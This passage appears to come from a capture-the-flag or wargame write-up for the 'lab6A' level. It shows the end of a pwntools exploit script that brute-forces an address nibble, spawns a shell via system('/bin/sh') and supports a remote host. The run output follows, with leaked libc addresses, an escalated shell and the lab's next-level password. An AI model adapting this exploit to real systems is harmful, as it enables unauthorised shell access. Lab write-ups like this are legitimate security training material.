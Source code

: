   
  ## Trigger system("/bin/sh") ##
  r.recvuntil("Choice: ")
  r.sendline("3")

  r.interactive()

if __name__ == "__main__":
  log.info("For remote: %s HOST PORT" % sys.argv[0])
  if len(sys.argv) > 1:
    r = remote(sys.argv[1], int(sys.argv[2]))
    exploit(r)
  else:
    l = log.progress("Working")
    exploited = False
    while exploited == False:
      try:
        l.status("brute forcing nibble")
        r = process([ '/levels/lab06/lab6A'])
        #print util.proc.pidof(r)
        #pause()
        exploit(r)
        exploited = True
      except: 
        pass
{% endhighlight %}

{% highlight bash %}
lab6A@warzone:/tmp/lab6A$ python solve.py 
[*] For remote: solve.py HOST PORT
[+] Starting program '/levels/lab06/lab6A': Done
[32439]
[+] libcbase @ 0xb7598000
[+] system @ 0xb75d8190
[*] Switching to interactive mode
$ id
uid=1024(lab6A) gid=1025(lab6A) euid=1025(lab6end) groups=1026(lab6end),1001(gameuser),1025(lab6A)
$ cat /home/lab6end/.pass
eye_gu3ss_0n_@ll_mah_h0m3w3rk
$  
{% endhighlight %}

